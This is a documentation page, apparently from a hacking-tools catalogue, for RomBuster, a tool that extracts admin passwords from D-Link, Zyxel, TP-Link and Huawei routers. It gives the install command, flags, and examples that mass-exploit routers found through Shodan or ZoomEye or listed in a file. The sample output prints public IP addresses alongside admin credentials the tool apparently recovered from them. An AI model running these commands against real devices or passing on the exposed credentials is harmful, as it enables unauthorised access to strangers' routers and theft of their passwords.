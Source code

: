 ```yaml
---
title : "RomBuster"
# pre : ' '
description : "RomBuster is a router exploitation tool that allows to disclosure network router admin password."
date : 2021-07-06T11:24:47+02:00
# hidden : true
# draft : true
weight : 1510
# tags : ['']
---
```


---

Is a router exploitation tool that allows to disclosure network router admin password.

**Features**:

- Exploits vulnerabilities in most popular routers such as D-Link, Zyxel, TP-Link and Huawei.
- Optimized to exploit multiple routers at one time from list.
- Simple CLI and API usage.

## Installation

```plain
python3 -m pip install git+https://github.com/EntySec/RomBuster
```

## Usage

```plain
rombuster [-h] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]
```

## Flags

```plain
RomBuster is a router exploitation tool that allows to disclosure network router admin password.

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

## Examples

### Exploiting single router

Let's hack my router just for fun.

```plain
rombuster -a 192.168.99.1
```

### Exploiting routers from Internet

Let's try to use Shodan search engine to exploit routers over Internet.

```plain
rombuster --shodan [API-KEY]
```

```plain
$ rombuster --shodan [REDACTED]
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[+] (187.200.68.1:80) - admin:3931623066
[+] (2.191.126.139:80) - admin:admin
[*] Exploiting...
```

### Exploiting routers from input file

Let's try to use opened database of routers.

```plain
rombuster -i routers.txt -o passwords.txt
```

NOTE: It will exploit all routers in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

## URL List

- [Github.com - RomBuster](https://github.com/EntySec/RomBuster)
